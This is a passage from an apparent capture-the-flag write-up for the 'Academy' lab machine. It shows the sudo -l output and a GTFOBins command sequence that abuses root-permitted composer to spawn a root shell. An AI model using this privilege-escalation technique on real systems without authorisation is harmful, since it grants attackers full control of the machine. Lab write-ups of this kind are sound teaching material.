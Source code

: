 ### Composer SUID

When checking `sudo` privileges for `mrb3n`, we find out that `composer` can be run as `root`.

```
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

Based on GTFOBins, we can run this to get a root shell:

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

<figure><img src="../../../.gitbook/assets/image (1361).png" alt=""><figcaption></figcaption></figure>

Rooted!
